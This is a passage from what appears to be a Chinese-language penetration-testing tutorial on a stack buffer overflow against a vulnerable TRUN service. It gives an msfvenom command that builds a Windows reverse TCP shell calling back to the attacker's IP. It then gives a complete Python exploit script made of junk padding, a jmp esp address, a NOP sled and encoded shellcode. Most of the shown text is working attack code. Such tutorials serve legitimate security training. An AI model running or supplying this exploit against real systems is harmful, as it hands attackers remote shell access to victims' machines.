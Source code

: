 6.  然后，运行漏洞攻击。指令指针没有指向`43434343`，这是我们的`C`字符：

![](../images/00314.jpeg)

7.  现在我们可以插入外壳代码了。让我们使用 Metasploit 框架创建一个：

```
$ msfvenom -a x86 -platform Windows -p windows/shell_reverse_tcp LHOST=172.16.89.1 LPORT=4321 -b '\x00' -f python
```

8.  此命令在端口`4321`上生成反向 TCP 外壳以连接回我的攻击机器：

![](../images/00315.jpeg)

9.  因此，我们的最终开发应该如下所示：

```
#!/usr/bin/python
import socket
server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)

junk = 'A'*2006             \\ Junk value to overflow the stack

eip = '\x32\x31\xd9\x7d'    \\ jmp esp

nops = '\x90'*64    \\ To make sure that jump will be inside our shellcode

shellcode = ""
shellcode += "\xbb\x6e\x66\xf1\x4c\xd9\xe9\xd9\x74\x24\xf4\x5a\x2b"
shellcode += "\xc9\xb1\x52\x31\x5a\x12\x83\xea\xfc\x03\x34\x68\x13"
shellcode += "\xb9\x34\x9c\x51\x42\xc4\x5d\x36\xca\x21\x6c\x76\xa8"
shellcode += "\x22\xdf\x46\xba\x66\xec\x2d\xee\x92\x67\x43\x27\x95"
shellcode += "\xc0\xee\x11\x98\xd1\x43\x61\xbb\x51\x9e\xb6\x1b\x6b"
shellcode += "\x51\xcb\x5a\xac\x8c\x26\x0e\x65\xda\x95\xbe\x02\x96"
shellcode += "\x25\x35\x58\x36\x2e\xaa\x29\x39\x1f\x7d\x21\x60\xbf"
shellcode += "\x7c\xe6\x18\xf6\x66\xeb\x25\x40\x1d\xdf\xd2\x53\xf7"
shellcode += "\x11\x1a\xff\x36\x9e\xe9\x01\x7f\x19\x12\x74\x89\x59"
shellcode += "\xaf\x8f\x4e\x23\x6b\x05\x54\x83\xf8\xbd\xb0\x35\x2c"
shellcode += "\x5b\x33\x39\x99\x2f\x1b\x5e\x1c\xe3\x10\x5a\x95\x02"
shellcode += "\xf6\xea\xed\x20\xd2\xb7\xb6\x49\x43\x12\x18\x75\x93"
shellcode += "\xfd\xc5\xd3\xd8\x10\x11\x6e\x83\x7c\xd6\x43\x3b\x7d"
shellcode += "\x70\xd3\x48\x4f\xdf\x4f\xc6\xe3\xa8\x49\x11\x03\x83"
shellcode += "\x2e\x8d\xfa\x2c\x4f\x84\x38\x78\x1f\xbe\xe9\x01\xf4"
shellcode += "\x3e\x15\xd4\x5b\x6e\xb9\x87\x1b\xde\x79\x78\xf4\x34"
shellcode += "\x76\xa7\xe4\x37\x5c\xc0\x8f\xc2\x37\x43\x5f\x95\xc6"
shellcode += "\xf3\x62\x25\xd9\xe2\xea\xc3\xb3\xf4\xba\x5c\x2c\x6c"
shellcode += "\xe7\x16\xcd\x71\x3d\x53\xcd\xfa\xb2\xa4\x80\x0a\xbe"
shellcode += "\xb6\x75\xfb\xf5\xe4\xd0\x04\x20\x80\xbf\x97\xaf\x50"
shellcode += "\xc9\x8b\x67\x07\x9e\x7a\x7e\xcd\x32\x24\x28\xf3\xce"
shellcode += "\xb0\x13\xb7\x14\x01\x9d\x36\xd8\x3d\xb9\x28\x24\xbd"
shellcode += "\x85\x1c\xf8\xe8\x53\xca\xbe\x42\x12\xa4\x68\x38\xfc"
shellcode += "\x20\xec\x72\x3f\x36\xf1\x5e\xc9\xd6\x40\x37\x8c\xe9"
shellcode += "\x6d\xdf\x18\x92\x93\x7f\xe6\x49\x10\x8f\xad\xd3\x31"
shellcode += "\x18\x68\x86\x03\x45\x8b\x7d\x47\x70\x08\x77\x38\x87"
shellcode += "\x10\xf2\x3d\xc3\x96\xef\x4f\x5c\x73\x0f\xe3\x5d\x56"

injection = junk + eip + nops + shellcode
s.send(('TRUN .' + injection + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n') 
print s.recv(1024)
```